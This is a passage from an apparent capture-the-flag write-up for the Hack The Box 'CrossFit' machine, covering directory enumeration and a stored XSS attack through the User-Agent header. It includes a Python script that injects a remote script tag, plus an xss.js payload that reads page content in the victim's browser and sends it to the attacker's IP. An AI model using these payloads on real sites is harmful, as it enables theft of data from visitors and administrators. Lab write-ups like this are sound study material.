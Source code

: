 ```bash
gobuster dir -u http://gym-club.crossfit.htb/vendor/tilt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o dir2.txt -x php,txt,zip,bak,sql,db
```

I think this is a rabit hole ...

### XSS 
Moving on to blog: http://gym-club.crossfit.htb/blog-single.php
On this page I tried a simple xss on comment box and got a warning

```
XSS attempt detected
A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.
```
I tried many things to bypass the XSS in comments but failed. 
> The xss was in user-agent header.. **but to trigger that you also need to send a xss payload in the message**

After trying few things I got to know(by hint) that there is another subdomain running `ftp.crossfit.htb`

I prepared my payload like this

User-Agent: <script src="my-ip/xss.js"></script>

and to automate this I made simple python script, I dont want to use burp suite to send the request

```python
import requests

url = "http://gym-club.crossfit.htb/blog-single.php"

header = {"User-Agent": "<script src='http://10.10.16.13/xss.js'></script>","Content-type":"application/x-www-form-urlencoded"}
data = {"name":"a","email":"a@b.com","phone":123555,"message":"<script src='http://10.10.16.13/xss.js'></script>","submit":"submit"}
req = requests.post(url,data=data,headers=header)

print(req.status_code)
```

On my machine hosting xss.js with python
```bash
python3 -m http.server 80
```

XSS.js
```javascript
function getResponse(url)
{
    var rawFile = new XMLHttpRequest();
    rawFile.open("GET", url, false);
    rawFile.onreadystatechange = function ()
    {
        if(rawFile.readyState === 4)
        {
            if(rawFile.status === 200)
            {
                var allText = rawFile.responseText;
                var req = new XMLHttpRequest();
                req.open("GET","http://10.10.16.13/?response="+ JSON.stringify(allText),false);
                req.send();
            }
        }
    }
    rawFile.send(null);
}
```